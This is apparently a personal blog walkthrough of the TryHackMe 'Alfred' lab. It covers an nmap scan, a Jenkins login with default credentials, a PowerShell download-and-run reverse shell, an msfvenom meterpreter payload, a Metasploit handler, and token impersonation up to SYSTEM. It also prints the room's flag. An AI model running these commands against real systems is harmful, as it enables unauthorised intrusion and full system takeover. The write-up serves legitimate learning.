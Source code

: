 ```yaml
---
title: THM Room Walkthrough - Alfred
date: '2025-01-22 21:35:00 +0000'
author: b3rdma
categories:
  - Hacking
  - Try Hack Me
tags:
  - nmap
  - enumeration
  - privilege escalation
  - reverse shell
  - metasploit
description: THM room Alfred walkthrough - good room for rev shell/Metasploit practice
media_subpath: /img/alfred/
---
```

## Contents

### Table of contents

<!-- toc -->

- [Task 1 - Initial Access](#task-1---initial-access)
- [Initial Recon - NMAP Scan Results](#initial-recon---nmap-scan-results)
- [Enumeration](#enumeration)
- [Task 2 - Switching Shells](#task-2---switching-shells)
- [Task 3 - Privilege Escalation](#task-3---privilege-escalation)

<!-- tocstop -->

## Task 1 - Initial Access

First things first, lets do a full nmap scan to see what is open on the target.
I used the following command to scan the target:

<!-- prettier-ignore-start -->
```bash
sudo nmap -sV -sC -p- -Pn -T4 10.10.131.95
```
{: .nolineno }
<!-- prettier-ignore-end -->

## Initial Recon - NMAP Scan Results

<!-- prettier-ignore-start -->
```bash

┌──(zed   kali)-[~/hacking/thm/rooms/alfred]
└─|||> sudo nmap -sV -sC -p- -Pn -T4 10.10.131.95
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-19 12:54 GMT
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.131.95, 16) => Protocol wrong type for socket
Offending packet: TCP 10.11.121.104:56714 > 10.10.131.95:53 S ttl=46 id=1811 iplen=11264  seq=3598359036 win=1024 <mss 1460>
Nmap scan report for 10.10.131.95
Host is up (0.038s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2025-01-18T12:49:06
|_Not valid after:  2025-07-20T12:49:06
|_ssl-date: 2025-01-19T13:41:17+00:00; -16s from scanner time.
8080/tcp open  http          Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -16s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2824.03 seconds

```
{: .nolineno }
<!-- prettier-ignore-end -->

## Enumeration

- First went to 10.10.255.69:8080 and was presented with the Jenkins login page
- Tried default `admin:admin` for username and password and that logged me in to
  back-end (default credentials for Jenkins found via search)
- In the project config page we see execution of batch commands is enabled
- Change the `whoami` default command with:

<!-- prettier-ignore-start -->
```powershell
powershell iex (New-Object
Net.WebClient).DownloadString('http://10.11.121.104:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp
-Reverse -IPAddress 10.11.121.104 -Port 4444
```
{: .nolineno }
<!-- prettier-ignore-end -->

- Save the project and then build it so it runs the payload
- Make sure to have the following two commands running on attack machine:

<!-- prettier-ignore-start -->
```bash
python3 - http.server
```
{: .nolineno }
<!-- prettier-ignore-end -->

<!-- prettier-ignore-start -->
```bash
nc -nvlp 4444
```
{: .nolineno }
<!-- prettier-ignore-end -->

- Had issues with getting the `nc` command to work on MacOS so booted up Kali
- Worked great once build of the project started on Kali; reverse shell sorted.
- Had to search about a bit to find the flag at `C:\Users\bruce\Desktop\user.txt`
- Flag is: `79007a09481963edf2e1321abd9ae2a0`

## Task 2 - Switching Shells

The instructions on this part of the room are quite self-explanatory; however,
the steps I took are as follows:

- Use the `msfvenom` command to generate a payload:

<!-- prettier-ignore-start -->
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata -e x86/shikata_ga_nai LHOST=10.11.121.104 LPORT=4443 -f exe -o revShell.exe
```
{: .nolineno }
<!-- prettier-ignore-end -->

- Once that is done, uploading to the target machine is the next step. In the
  shell we already have, run the command
  `powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.11.121.104/revShell.exe','revShell.exe')"`
- This is now ready to use on the target, but first we need to set up Metasploit
  to listen in to it as we are using a meterpreter.
- There is a one-liner on the THM Room page that can be used but I opened
  Metasploit the old way and set the required parameters; the commands listed
  below in order of execution:

<!-- prettier-ignore-start -->
```bash
msfconsole
use exploit/multi/handler
set LOST 10.11.121.104
set LPORT 4443
set PAYLOAD windows/meterpreter/reverse_tcp
run
```
{: .nolineno }
<!-- prettier-ignore-end -->

- Once the meterpreter handler connects, use the command `shell` to now have the
  Windows Cmd shell prompt.
- To answer the question in Task 2, simply run `dir` and look at the file size
  (in bytes) of revShell.exe.

## Task 3 - Privilege Escalation

The Task 3 questions are pretty guided by the instructions so here I shall just
add a few screenshots of the results:

![whoami/priv command on kali linux](20250124-alfred-whoami-priv.webp){: width="700" height="400" }
_Execution of the `whoami/priv` command_

The next step instructs us to enter `load incognito` and follow that up with
`list_tokens -g`. See screenshot below for results:

![load incognito Meterpreter command on kali linux](20250124-alfred-load-incognito.webp){: width="700" height="400" }
_Execution of the `load incognito` Meterpreter command_

The observant will note that I have also run the commands `getuid` and
`impersonate_token "BUILTIN\Administrators"`; The output shows that initially we
were `alfred\bruce`. Not in the screenshot (sorry) is the output from running
the `getuid` command afterwards which will be `NT AUTHORITY\SYSTEM`.

Final steps are to get the process ID of services.exe, migrate to that process
and gain root privileges. Output of the `ps` command below:

![ps command on kali linux](20250124-alfred-ps-command.webp){: width="700" height="400" }
_Execution of the `ps` command_

Now we have found the PID we want, run the command `migrate <PID>`, in my case
it was `migrate 668`, and wait for the success message. Root is ours. Final
question answered by `cat`'ing the root.txt file. Location is given which is
nice 🙂.

![cat and type command on kali linux](20250124-alfred-final-flag.webp){: width="700" height="400" }
_Execution of the `cat` command_

> The output from `cat` looked kind of strange to me so I entered shell and used
> `type root.txt` to confirm that the flag was correct. All shown in the
> screenshot but wanted to clarify just in case.
> {: .prompt-info }

So that is Alfred completed. I hope this was helpful, informative and possibly
even interesting. Feedback is always welcome but please do view this in the
context that these are basically my learning notes. Definitely let me know if
there are errors, especially in relation to techniques/tools used.

Thank you and Godspeed.

